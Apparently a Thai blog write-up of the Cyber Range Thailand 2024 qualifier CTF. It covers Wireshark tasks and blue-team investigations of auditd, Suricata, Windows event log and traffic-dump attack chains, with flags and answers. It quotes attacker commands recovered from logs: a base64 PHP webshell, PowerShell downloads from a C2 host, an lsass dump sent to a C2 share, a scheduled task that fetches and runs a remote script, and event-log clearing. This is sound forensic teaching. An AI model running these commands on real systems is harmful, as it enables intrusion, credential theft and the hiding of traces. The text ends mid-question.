




# Cyber Range Thailand 2024 (Qualifier) - Review and Write-up
[toc]
* * *


สวัสดีครับทุกท่าน พบกับ chicken0248 กันอีกแล้ว ในครั้งนี้ผมได้มีโอกาสเข้าร่วมงาน Cyber Range Thailand 2024 ซึ่งเป็นงานที่จัดโดยบริษัท Solar จำกัด, บริษัท Cloudsec Asia จำกัด, มหาวิทยาลัยเทคโนโลยีพระจอมเกล้าธนบุรี และสำนักงานคณะกรรมการการรักษาความมั่นคงปลอดภัยไซเบอร์แห่งชาติ (สกมช.)  ร่วมกับหน่วยงานพันธมิตร 

โดยจะให้บุคคลทั่วไปหรือนักศึกษาอายุ 18 ปีขึ้นไปเข้าร่วมเป็นจำนวน 150 มาแข่งในรอบคัดเลือกครับ ซึ่งวันนี้ผมอยากจะมาโชว์ให้ทุกท่านดูว่า Platform ที่ใช้แข่งในรอบคัดเลือกนี้แล้วก็จะมาแชร์ write-up ของโจทย์ในรอบคัดเลือกครับผม


แต่ก็บอกไว้ตรงนี้เลยว่า ถึงแม้ NCSA Thailand จะบอกว่ารอบคัดเลือกจะเป็นการแข่ง CTF Jeopardy Style แต่มันก็เป็นความจริงแค่ส่วนนึงเท่านั้นครับ เพราะที่เหลือจะเป็นการทำ Digital Forensics หรือ Blue Team เพื่อค้นหาร่องรอยการโจมตีของ Threat Actor นั่นเอง


Platform ที่ใช้ในการแข่งขันครั้งนี้ก็คือ CYBERMIR ของ Solar ครับ ซึ่ง domain ตอนแข่งก็ยังเป็น demo อยู่เลย ถ้าให้เดาก็คิดว่า Solar คิดจะขาย platform นี้ในการ Training ทั้ง Red และ Blue team ครับ

โดยเราสามารถกดเข้าร่วมอีเวนต์ได้จากหน้านี้ครับ (เอ่อ... อย่าไปสนใจ QR Code นะครับ แต่ถ้าสนใจก็โอนเงินมาได้ครับ)


นี่ก็หน้าแรกที่ผู้เข้าแข่งจะได้พบเจอก่อนเป็นอันดับแรกเมื่อเข้าหน้าอีเวนต์มาครับ โดยจะมี Scoreboard ในรูปแบบของ % บอกว่าผู้เข้าแข่งขันคนไหนส่งคำตอบถูกไปกี่ % แล้ว, รายละเอียดของอีเวนต์ว่ามีผู้เข้าแข่งขันกี่คน, เวลาผ่านไปตั้งแต่เริ่มอีเวนต์เท่าไหร่แล้ว 


ปุ่ม **Manuals** จะแสดงหน้าต่างไฟล์ที่ใช้ในการแข่งขันครั้งนี้รวมถึงวิธีการใช้ Platform เบื้องต้นครับ (จะเห็นได้อย่างชัดเจนว่าการแข่งขันครั้งนี้เน้นไปที่ Blue Team ครับ)


ต่อไปจะเป็นปุ่ม **Participants report** หรือที่ ๆ ผู้เข้าแข่งขันจะต้องมา Submit คำตอบของตัวเองในหน้านี้ครับ ซึ่งเมื่อใส่คำตอบไปแล้วก็ต้องกด **Submit all** (ปุ่มสีเหลืองข้างบนมุมขวา) เพื่อให้ระบบส่งคำตอบเราไปคำนวนคะแนน แล้วก็จะเอาคะแนนไปขึ้น Scoreboard ครับ 

ข้อเสียตอนนี้ที่เห็นได้ชัดคือ เราจะไม่รู้เลยว่าคำตอบที่เราส่งไปนั้นเป็นคำตอบที่ถูกรึเปล่า โดยวิธีที่ผู้เข้าแข่งขันทำกันก็คือการเปิด tab นึงไว้ส่งคำตอบ ส่วนอีก tab เป็น scoreboard ไว้ดูคะแนน


ในส่วนของปุ่ม Connect จะเป็นการเปิด Kali Linux instance ขึ้นมาโดยจะมีไฟล์โจทย์ให้ในเครื่องและ tools พื้นฐานของ Kali ที่เราต้องการ (มั้งนะ ?) และในหน้านี้ก็จะมีปุ่มอื่น ๆ ให้เรากดตั้งแต่ให้โหลดไฟล์โจทย์


**3D Visualization** ที่จะเป็นการโชว์เมืองที่ทำด้วย Unity Model แต่ตอนนี้ยังไม่มี interaction อะไรกับมันครับ แค่ซูมเข้าซูมออก คาดว่าในอนาคตอาจจะมีเหตุการณ์พิเศษที่กระทบต่อตัวเมืองครับ


นี่คือหน้าตาของ Scoreboard ครับ คะแนนเต็มอยู่ที่ 720 คะแนน (จะเห็นว่าผมได้คะแนนเต็มก่อนใคร ก็เลยมีเวลามาปั่น write-up 555)

เราเห็นระบบกันคร่าว ๆ แล้ว ได้เวลามาเริ่มกันที่โจทย์ของงานได้เลยครับ
***
## Wireshark PCAP 
ในหมวดนี้จะให้ไฟล์ pcap 7 ไฟล์มาให้เรา โดยบางข้อจะให้เราหา flag แต่บางข้อก็จะให้หาข้อมูลจาก packet ข้างใน pcap ไฟล์ครับ

### Wireshark and packet body 
>What is the length of the data field transmitted in the ICMP packet?



ข้อนี้ทำผมเสียเวลาอยู่นานมากครับ ไม่ใช่เพราะอะไรหรอก มันเป็นข้อสุดท้ายที่ผมขาดก่อนจะได้ 100% solve ของการแข่งรอบนี้ ซึ่งเราจะเห็นว่า Wireshark ได้ detect data section ของ ICMP packet เป็น 40 bytes แต่นั่นก็ไม่ใช่คำตอบที่ถูกครับ


คำตอบที่แท้จริงของข้อนี้ก็คือ 48 bytes โดยเราสามารถไปหาคำตอบเพิ่มเติมได้จาก link นี้ครับ https://stackoverflow.com/questions/58645401/why-is-there-something-written-in-the-data-section-of-an-icmpv4-echo-ping-reques

```
48
```


***
### Filters in Wireshark 
>Indicate how many Type A DNS queries were sent to the server 208.67.220.220?


ข้อนี้สิ่งที่เราต้องทำก็แค่สร้าง filter ให้หา packet ที่เป็น Type A DNS queries ไปที่ IP address เป้าหมาย โดยที่ผมใช้จะเป็นตัวนี้ครับ `dns.qry.type==1 && ip.dst == 208.67.220.220` และจำนวน Displayed packet ของ filter นี้ก็คือคำตอบของข้อนี้ครับ

```
19
```


* * *
### Compression_gzip 


ข้อนี้จะเป็นการให้หา flag ครับ โดย communication ที่น่าสนใจใน pcap นี้ก็คือ HTTP ครับ ซึ่งผมก็ได้ไปเจอ flag อยู่ใน HTTP Response ที่เป็น JSON ในรูปเลย

```
flag{y0u_h4v3_f0und_th3_gzipp3d_answ3r}
```


* * *
### DNS Tunnel 


ในข้อนี้เราจะต้อง extract flag จาก dns query ซึ่งผมเห็นแล้วก็เอ๊ะขึ้นมาทันทีเพราะว่าก่อนวันแข่งผมได้ลองเล่น HackTheBox Sherlock - Litter ซึ่งเป็นการ investigate DNS tunneling ที่เกิดขึ้นจาก dnscat2 ซึ่งโจทย์ข้อนี้ก็เป็นแบบเดียวกันครับ (ถือว่าเก็งข้อสอบมาถูกข้อมั้ง?)


ผมได้ใช้ command `tshark -r DNS\ tunnel.pcapng -Y "dns && ip.addr == 192.168.5.22" -T fields -e dns.qry.name | awk 'length($0) > 24' | xxd -r -p > dns_conver.txt` ในการ extract dns domain name ที่มีความยาวเกิน 24 (เอามาจาก 1.5.168.192.in-addr.arpa) แล้วแปลงค่าจาก hex เป็น text ใส่ในไฟล์เพื่อเปิดกับ VSCode โดยเราจะเห็นว่ามี flag ซ่อนอยู่จริง ๆ ครับแต่เหมือนจะมีบางส่วนที่ขาดไปแล้วมี gibberish จากการ convert มาปนทำให้การหา flag ยากขึ้น


ต่อมาผมก็ได้ใช้ command `tshark -r DNS\ tunnel.pcapng -Y "dns && ip.addr == 192.168.5.22" -T fields -e dns.qry.name | awk 'length($0) > 25' > dns_conver_unfilter.txt` ซึ่งมีการเพิ่ม length ขึ้นมาอีกนิดแล้วก็ไม่ได้ให้มัน convert เป็น text เพื่อที่เราจะได้มาตัดคำ (จริง ๆ มันทำได้ตั้งแต่ command-line แต่ผมอยากไปทำใน vscode) ซึ่งเราก็รู้อยู่แล้วว่า flag มันอยู่ช่วงสุดท้ายและ domain มันก็จะดูยาว ๆ หน่อย ก็ก็อปทั้งโดเมนมาใส่ CyberChef โดยเอา dot (.) และ domain ต่อท้ายออก


สุดท้ายก็เอามา convert เป็น text ก็จะได้ flag อย่างที่เห็นครับ

```
flag{this_is_a_hidden_message_in_dns_requests}
```


* * *
### smb_sniff 


เป็นอีกข้อที่ให้หา flag เหมือนกัน โดยข้อนี้เนื่องจากตัวไฟล์บอกใบ้ไว้แล้วว่า flag จะอยู่ใน smb ซึ่งผมก็ filter `smb2` แล้วก็ไปเจอ flag ถูก read ผ่าน smb ครับ


ตัว flag ก็จะมาจาก `4.txt` บน `\\192.168.108.1\data` นั่นเอง

```
flag{smb_tr4nsfer_sn1ff}
```


* * *
### Wireshark and FTP 


เนื่องจากข้อนี้ตั้งชื่อว่าเป็น FTP ดังนั้นสิ่งที่ผมทำคือไปที่ File -> Export Objects -> FTP-DATA... ครับ โดยจะเห็นว่ามี flag ในลักษณะของ image file ถูกส่งด้วย FTP protocol ใน capture นี้


นี่ก็คือไฟล์ที่เราสามารถ export ออกมาได้ครับ จะพิมพ์เองก็ได้นะหรือ...


ส่วนตัวผมใช้ https://www.imagetotext.info/ เพราะผมไม่เชื่อใจนิ้วตัวเองเท่าไหร่ครับช่วงนี้ 5555

```
flag{8be9140721c890ae21c2bd02788bf30b}
```


* * *
### Wireshark and MAC 
>Specify the MAC address of the computer with the IP address 192.168.0.8


ข้อนี้ให้หา MAC address ของ IP หนึ่งซึ่งเราจะ filter หา arp request / response ก็ได้ แต่เราไม่จำเป็นต้องทำขนาดนั้นเพราะใน Data Link Layer ก็จะมีการใส่ MAC address ลงไปอยู่แล้ว

```
00:0c:29:ce:5b:7b
```


* * *
หลังจากนี้ไปก็จะเป็น scenario สำหรับชาว blue team ให้ทำการ investigate กันหละครับ

## Attack chain in Auditd log 

ในโจทย์นี้ก็จะให้ Auditd log ไฟล์มา ซึ่งจะให้เราเริ่มหาตั้งแต่ content ข้างในของ webshell ไปจนถึง protocol ที่ใช้ exfiltrate file ออกไปครับ

>Write the contents of shell.php in base64 encoding

ข้อนี้ผมรู้สึกว่าผมโกงมานิดหน่อยครับ เพราะผมไปทำข้อหลัง ๆ ก่อนทำให้เอะใจได้ว่าเครื่องที่ถูกโจมตีนั้น ถูกโจมตีด้วยช่องโหว่ Drupalgeddon2 ผมก็เลยไปหา github repo ที่มีการ generate webshell ของช่องโหว่นี้ครับ  


แล้วผมก็ไปเจอ payload ที่ต้องการใน GitHub repo นี้ https://github.com/dreadlocked/Drupalgeddon2


เอา payload มา encode ด้วย base64 แล้วส่งคำตอบก็จะได้คะแนนมาครับ

```
PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9
```

**สำหรับคนที่มองหา intended way, เชิญทางนี้ครับ


ขั้นแรกเราต้องมองหาว่า `shell.php` ถูกสร้างมาตอนไหน ซึ่งตรงนั้นจะเห็นว่ามีการรัน `sh -c` ตามด้วย argument ที่เป็น hex ที่ `/var/www/html` แล้วหลังจากนั้นก็จะมีการรัน base64 decode แล้วสร้างไฟล์ `shell.php` ขึ้นมาด้วยการ pipe ด้วย `tee`


ดังนั้นหากเราเอา hex ตรงนั้นมา convert เป็น text ก็จะพบ command ในการสร้างไฟล์ `shell.php` ครับ

>What vulnerability does the shell.php load correspond to?


intended way ก็คือการเอา base64 จากข้อแรกไป search ตรง ๆ ใน google ครับ ก็จะขึ้นมา repo แรกเลย
```
CVE-2018-7600
```

หรือจะตอบว่า `drupalgeddon2` ก็ได้เหมือนกันครับ

>What is the IP address of the attacker's server


เมื่อค้นไปเรื่อย ๆ เราก็จะพบว่ามีการใช้ `wget` ในการ request หลาย ๆ ไฟล์มาจาก C2 server ครับ ซึ่งไฟล์ที่ได้ request มาก็จะมีตั้งแต่
- `sploit.c`
- `socat`
- `exfil.sh`
- `encr.sh`
และ `FLAG.txt` โดย IP address ตัวนี้ก็จะใช้ในการ exfiltrate file ออกไปด้วยครับ

```
10.7.200.50
```

>What port did the attacker use to access the command shell with elevated privileges?

เรารู้ว่า threat actor ได้ทำการส่ง `socat` มาบนเครื่องเหยื่อ ผ่าน webshell ดังนั้นผมก็ลองหาว่า threat actor อาจจะใช้ socat ในการทำ reverse shell และก็น่าจะทำ privilege escalation ให้ได้ shell กลับไปเป็น root ด้วย 


ซึ่งผมก็พบว่าหลังจากได้ `socat` มา หลังจากนั้นก็มีการพยายามใช้ `socat` ด้วยสิทธิ์ www-data ซึ่งในที่นี้ทาง threat actor ก็ได้ทำ bind shell บนเครื่องเหยื่อสำเร็จที่ port 8080




หลังจากนั้น threat actor ก็ได้พบว่า `/usr/bin/passwd` มีการ setuid ให้รันด้วย root privilege ซึ่งก็แน่นอนว่า threat actor ก็ได้ทำ priviledge escalation ด้วย binary ตัวนี้ (สังเกตได้ว่า uid ได้เปลี่ยนเป็น 0 หรือ root เรียบร้อยแล้ว) 

**ซึ่งจริง ๆ แล้วเป็นการ exploit ด้วย DirtyCow ครับ


หลังจากนั้น threat actor ก็ได้ใช้ socat สร้าง remote shell connection ในอีก session ด้วย root privilege ที่ port 8081 ซึ่งก็คือคำตอบของข้อนี้ครับ

```
8081
```

>What type of encryption did the attacker use to encrypt the files? 


หลังจากนั้น threat actor ก็ได้โหลดไฟล์ `encr.sh` ที่เป็น script ที่ใช้ encrypt files บนเครื่องเหยื่อด้วย openssl โดย key และ iv ก็จะมาจาก urandom และ rand base64 แต่เราก็ยังไม่รู้แน่ชัดว่าเป็น AES เวอร์ชั่นไหนที่ใช้ encrypt แต่เรารู้ว่าไฟล์ที่ถูก encrypt จะต้องมี extension เป็น .php หรือก็ขึ้นต้นด้วย FLAG.txt



ซึ่งเมื่อเลื่อนลงไปเรื่อย ๆ ตาม flow ก็จะพบว่าเป็น AES-256-CBC โดยมี key เข้ารหัสไฟล์และ iv ตามที่เห็นแล้ว และไฟล์ที่ถูก encrypted ก็จะมี extension ต่อท้ายเป็น `.encr`

```
AES-256-CBC
```

>What encryption key did the attacker use 


threat actor ได้ทำการ encrypt ไฟล์หลายไฟล์มากโดยใช้ key เดียวกัน แต่ก็มี `FLAG.txt` ที่ถูก encrypt ด้วย key และ IV ที่ต่างออกไป ซึ่งผมก็ได้ลอง submit key นี้ไปแล้วระบบก็นับว่า key นี้คือคำตอบที่ถูก ดังนั้นข้อนี้เราสามารถตอบได้สอง key ครับ
```
/yB4pcpUbRG5JDpc9fpX5Q==
```

>What protocol did the attacker use for exfiltration 


เรารู้ว่า threat actor ได้ drop `exfil.sh` ลงมาดังนั้นผมก็มุ่งเป้าความสนใจไปที่ script นี้เลย ซึ่งก็จะพบว่าเป็นสคริปต์ที่ใช้ gzip, base64,sed,tr กับไฟล์สำคัญ ๆ เช่น `/etc/passwd` และ `/etc/shadow` แล้วสร้าง DNS query ด้วย `dig` เพื่อ exfiltrate ผลลัพท์จาก command เหล่านั้นไปยัง C2 ดังนั้น protocol ที่ใช้ก็คือ DNS นั่นเอง

```
DNS
```


* * *
## Chain of attacks in the Suricata IDS log 

ในโจทย์นี้ก็จะให้ `fast.log` ไฟล์มา ซึ่งจะเป็นไฟล์ log ที่ generate โดย suricata ครับ โดยจะมีข้อดีอยู่ที่ทุก ๆ บรรทัดก็จะมี alert/warning บอกว่าอาจจะเป็นการโจมตีประเภทไหนจากใคร

>What is the attacker's IP address 


ข้อนี้ผมใช้กำปั้นทุบดินด้วยการรัน command `grep -i "attack" fast.log` แล้วก็หาว่ามี alert/warning ไหนที่น่าสนใจบ้างซึ่งก็พบว่ามีการโจมตี Web Attack มาจาก IP Address นึงอย่างต่อเนื่อง ซึ่งนั่นก็เป็น IP Address ของ threat actor นั่นเอง

```
10.64.5.69
```

>What tool was used to scan the nodes 


กำปั้นทุบดินไปอีกข้อครับ ผมเปลี่ยน keyword เป็นคำว่า nmap แทนเพราะเป็น well-known scanning tool แล้วก็พบว่ามีการใช้ nmap ในการแสกนจริง ๆ ครับ
```
nmap
```

>When was the last attack on a web server? 10.69.2.11,format :HH:MM:SS



command ที่ผมใช้ในข้อนี้ก็คือ `grep  "10.69.2.11" fast.log | grep -i "web" | tail` โดยเริ่มจากการ filter IP ที่เราสนใจ จากนั้นก็ไปเอาเฉพาะ alert/warning ที่เกี่ยวกับเว็บและให้ display ส่วนสุดท้ายของผลลัพธ์ที่ผ่านการ filter แล้วออกมาก็จะได้ timestamp สุดท้ายของ alert/warning ที่มีการโจมตีไปที่ web server ตัวนี้ครับ

```
19:53:28
```

>To which address was the password brute force attack carried out 


ข้อนี้ผมเริ่มจากการ filter หา protocol ที่สามารถถูก bruteforce ได้ โดยเริ่มจาก SSH (ซึ่งไม่ใช่คำตอบที่ถูกต้อง) แล้วก็มาเจอว่ามีการ Brute force ผ่าน RDP เกิดขึ้นไปยัง IP 10.69.1.254 และ 10.69.3.20 ซึ่งผม submit ตัวที่สองแล้วได้คะแนน ซึ่งมันก็ต้องเป็นตัวนี้แล้วหละ 555

```
10.69.3.20
```

>From what address was the attack on the domain controller 10.69.3.10 


ข้อนี้เราสามารถใช้ command `grep  "10.69.3.10:" fast.log` ได้ตรง ๆ เลยซึ่งก็จะพบว่า มีการพยายามโจมตีมายัง domain controller ด้วย DCSync attack จาก IP ภายใน IP หนึ่งซึ่งคาดว่าจะเป็น compromised host แล้วพยายาม pivot มาที่ DC
```
10.69.2.11
```

>What tool did the attacker use to encrypt files on a Windows server? 


เมื่อมีการ encrypt นั่นย่อมหมายถึง Ransomware ซึ่งผมก็ใช้ command `grep -i "ransom" fast.log` ที่ให้โชว์ alert/warning ที่น่าจะเกี่ยวกับ ransomware attack เท่านั้น โดยข้อนี้จะให้เราตอบเป็น library ที่ใช้ในการ encrypt ซึ่งก็คือ CryptoAPI นั่นเอง
```
CryptoAPI
```

>Write the number of the most frequent warning suricata 


ข้อนี้ต้องกราบ ChatGPT งาม ๆ อีกครั้งโดยผมให้มัน gen command ที่ให้นับ warning ที่ต่างกันและ print เฉพาะ warning ที่มีจำนวนมากที่สุดออกมาครับ

`grep '\[**\]' fast.log | awk -F '\[|\]' '{print $5}' | sort | uniq -c | sort -nr | head -n 1`

ซึ่งจะเป็นว่าเป็น RDP bruteforce attack warning นั่นเอง

```
20094
```

>When did the attack happen ,format: dd/mm/yyyy? 


ข้อนี้แจกคะแนนครับ เนื่องจากการ attack ทั้งหมดมันเกิดในวันเดียวกัน 
```
11/08/2022
```


***
## Attack chain in Windows event log 

โจทย์นี้จะให้ Windows event log file มาในรูปแบบของทั้ง evtx ไฟล์ที่จะเปิดผ่าน Event Viewer บน Windows ได้ และไฟล์ที่สองก็คือ event log ในรูปแบบ xml ที่จะใช้ terminal ในการ filter ได้ง่ายหรือจะจับโยนเข้า SIEM อย่างเช่น splunk ก็ทำได้

>What is the domain name of the computer 


ข้อแจกคะแนนครับ แค่เปิด log มาก็พบแล้ว
```
mx1.company.local
```

>What is the number of unsuccessful entries in the log


ในข้อนี้เราต้อง filter เอาเฉพาะ EventID 4625 An account failed to log on. ซึ่งก็จะพบว่ามีอยู่ 108 entries ใน log นี้ครับ
```
108
```

>The password for which account was selected 


ข้อนี้ผมข้ามไป phase หลังจากที่ threat actor bruteforce สำเร็จเลย โดยจะ filter EventID 4688 Process Creation ที่มักจะเก็บ CommandLine ของแต่ละ process เอาไว้ด้วยซึ่งผมก็พบว่ามีการใช้ cmd รัน powershell command เพื่อดึง `procdump.exe` มาจาก C2 server 


ซึ่งหลังจากนั้นก็ได้มีการเอา `psexec64.exe` มาด้วยซึ่ง without a doubt แล้วหละว่า Admin ถูก compromised ไปแล้ว

```
Admin
```

ซึ่งเมื่อย้อนกลับไปดูตั้งแต่เริ่มก็จะพบว่า threat actor ได้รัน
- `hostname` : แสดง hostname 
- `whoami` : ฉัน เป็น ใคร?
- `"netsh" interface tcp show global` : แสดงการตั้งค่า TCP
- `cmd.exe /C powershell wget http://10.64.5.73/procdump.exe -O C:\Users\Admin\procdump.exe` : ดึง process dump มาจาก C2
- `cmd.exe /C powershell wget http://10.64.5.73/psexec64.exe -O C:\Users\Admin\psexec64.exe` : ดึง psexec มาจาก C2
- `cmd.exe /C dir C:\Users\Admin` : ไปยังโฟลเดอร์ที่ drop ไฟล์มา
- `cmd.exe /C C:\Users\Admin\procdump.exe -accepteula -ma lsass C:\lsass.dmp` : dump lsass process ซึ่งสามารถเอาไป crack หา hash / weak password ได้
- `cmd.exe /C copy C:\lsass.dmp \\10.64.5.73\share` : copy lsass dump ไปยัง C2 share drive
- `cmd.exe /C C:\Users\Admin\psexec64.exe -accepteula -s -u company.local\Administrator -p Server1 \\10.73.3.50 cmd /c whoami` : หลังจากได้ password ของ Administrator มาแล้วก็ใช้ psexec run `whoami` ในสิทธิ์ของ Administrator บนเครื่อง 10.73.3.50
- `cmd.exe /C C:\Users\Admin\psexec64.exe -accepteula -s -u company.local\Administrator -p Server1 \\10.73.3.50 cmd /c ipconfig` : รัน `ipconfig` บนเครื่อง 10.73.3.50
- `cmd.exe /C C:\Users\Admin\psexec64.exe -accepteula -s -u company.local\Administrator -p Server1 \\10.73.3.50 cmd /c schtasks /F /create /RU SYSTEM /tn WindowsUpdate /sc DAILY /st 00:00 /tr "powershell iex ((New-Object System.Net.WebClient).DownloadString('http://10.64.5.73/persist.ps1'))"` : สร้าง Task "WindowsUpdate" ที่จะรันด้วยสิทธิ์ SYSTEM ทุก ๆ เที่ยงคืนเพื่อดาวน์โหลดและรัน persistence script จาก C2 server
- `cmd.exe /C C:\Users\Admin\psexec64.exe -accepteula -s -u company.local\Administrator -p Server1 \\10.73.3.50 cmd /c for %x in (Application System Security ForwardedEvents) do wevtutil cl %x` : เคลียร์ log ต่าง ๆ เป็นอันจบพิธี

>What MITER ATT&CK technique did the attacker use to compromise local accounts? Write the exact code of the equipment. 


เรารู้อยู่แล้วว่า threat actor dump lsass process ออกมาเพื่อ crack หา credential เราก็เอา lsass ไป search บน MITRE ATT&CK ได้เลย


และนี่ก็คือ technique ที่ใช้ครับ

```
T1003.001
```

>What is the password for the Administrator account 


อะไรก็ตามที่อยู่หลัง -p ใน psexec command ก็คือ password ครับ

```
Server1
```

>Write the name of the attacker's tool for horizontal movement 

เรารู้ว่า threat actor ใช้ psexec ในการรัน command บนเครื่อง 10.73.3.50 ดังนั้นก็แค่ใส่ exe name ของ psexec ลงไป
```
psexec64.exe
```

>Write the name of the scheduler task created by the attacker for pinning 


```
WindowsUpdate
```


* * *
## Attack chain in Wireshark traffic dump 

มาถึงโจทย์สุดท้ายกันแล้ว ซึ่งจะให้เรามาเป็น pcap file ที่มีขนาดค่อนข้างใหญ่

>What is the address of the attacker's car 


เมื่อเปิด pcap ไฟล์ขึ้นมาเราก็จะพบกับ port scanning activity ทันทีซึ่งก็ไม่ต้องสืบถึง IP Address ของ threat actor เลย มันอยู่ตรงหน้าเราแล้ว

```
10.14.200.50
```

>Which packet ended with the initial scanning of the external network. 


ในส่วนนี้ผมก็ filter IP address ของ target ที่โดน port scan แล้วเลื่อนไปท้ายสุดที่มี SYN และ RST, ACK packet คู่สุดท้ายก็จะพบ packet 6016 และ 6017 เป็น packet สุดท้ายที่จบการ scan จาก threat actor IP นี้

```
6017
```

>What tool did the attacker use to scan the web server 


ซึ่งหลังจากทำ port scan เสร็จ ทางฝั่ง threat actor ก็ได้ข้อมูลมาว่ามี web server รันอยู่บนเครื่องนี้ ดังนั้นเพื่อหาช่องโหว่ของ web server, ทาง threat actor ก็ได้ใช้ well-known web scanner อย่าง Nikto ในการแสกนหาช่องโหว่ต่อเลย ซึ่งรู้ได้ไงว่าเป็น Nikto? ดูจาก User-agent ได้เลยครับ

```
Nikto
```

>What vulnerability did the attacker use to attack 10.14.2.11 


ในเมื่อเรารู้แล้วว่า threat actor ใช้ Nikto ดังนั้นเพื่อ filter noise ออกไปก็ต้องไปเอา user-agent ออก แล้วผมก็ไปโฟกัสที่ HTTP Request ของ threat actor ที่ส่งไปยัง web server แทน ซึ่งก็พบว่ามีการ exploit drupalgeddon2 เกิดขึ้นแล้วทำสำเร็จซะด้วยทำให้ threat actor สามารถ upload webshell และรัน command ผ่าน webshell ได้

ข้อนี้เราจะตอบเป็น CVE Identifier หรือชื่อของช่องโหว่ก็ได้ครับ
```
CVE-2018-7600
```
หรือ `drupalgeddon2`

>What vulnerability did the attacker use to escalate privileges on 10.14.2.11 


ดู request จาก threat actor เพิ่มมาอีกนิดก็จะเห็นว่ามีการ GET request เพื่อขอไฟล์ script ภาษา c, `socat`, `chisel` และ `encr.sh` มาจาก threat actor IP address (เริ่มคุ้นแล้วไหมครับ ใช่แล้ว เหมือนกับ Auditd เลยยังไงหละ)


เมื่อเราเอา header ของ c script ไป search ก็จะพบว่ามันเป็น script สำหรับ exploit [DirtyCow](https://github.com/0x9a/DirtyCow/blob/master/DirtyCow.c) เพื่อทำ privilege escalation นั่นเอง


ซึ่งเมื่อส่องตาม webshell command ก็จะพบว่ามีการเปิด port 8080 รอ bind shell connection ด้วย socat 


filter ด้วย `tcp.port == 8080` แล้ว follow tcp stream ก็จะพบว่า threat actor จะเปิด port 8081 เพื่อทำอีก bind shell ด้วยสิทธิ์ root ซึ่งก็จะเห็น DirtyCow ถูก exploit จริง ๆ จาก stream นี้ครับ

```
CVE-2016-5195
```

>What tool did the attacker use to tunnel connections into the internal infrastructure network 


socat ก็ใช้ไปแล้ว มันก็เหลือแค่ [chisel](https://github.com/jpillora/chisel) แล้วหละ ซึ่งเราสามารถหา connection ที่เกิดจาก chisel ได้ด้วย Info ของ packet ครับ


ซึ่งก้จะเห็นว่า threat actor ใช้ Web Socket ในการทำ tunnel ไปยัง internal infrastructure network ของเป้าหมาย

```
chisel
```

>What tool did the attacker use to encrypt files on 10.14.2.11


เรารู้ว่า threat actor ส่ง encryption script ไปบนเครื่อง 10.14.2.11 เราก็ลองมาอ่านดูซักหน่อยว่ามันทำอะไร 

ซึ่งก็คืออัลกอริทึมเดียวกันที่เราพบใน Auditd log เลยครับ แต่ในที่นี้เราก็จะเห็นข้อความเพิ่มเติมด้วย อย่างเช่นการเพิ่มข้อความลงใน `/etc/motd` เพื่อบอก user เมื่อ login เข้ามาว่าโดน ransom แล้วนะ

```
openssl
```

>What key did the attacker use to encrypt files on the Windows server 


